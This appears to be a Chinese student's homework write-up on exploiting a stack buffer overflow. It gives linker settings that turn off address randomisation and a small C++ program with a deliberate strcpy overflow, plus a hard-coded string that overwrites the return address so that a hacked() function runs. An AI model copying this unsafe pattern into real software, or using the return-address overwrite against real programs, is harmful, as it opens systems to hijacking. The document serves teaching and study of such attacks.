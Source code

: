 # 二进制缓冲区溢出漏洞的利用

## 配置

预配置：按照homework_3进行配置

让程序地址固定：

右键属性->链接器->高级->设置：

1. 基址：0x00400000 (8位$2^8$即32位机)
2. 随机基址：否
3. 固定基址：是FIXED

~~~c++
#define _CRT_SECURE_NO_WARNINGS

#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int hacked()
{
	printf("hacked!!");
}

int sub(char* x)
{
	char y[10];
	strcpy(y, x);
	return 0;
}

// 213115C9
char *ov = "1234123512361237\xc9\x15\x31\x21";
int main(int argc, char** argv)
{
	if (argc > 1)
		sub(ov);
	printf("exit");
}
~~~

hacked地址213115C9
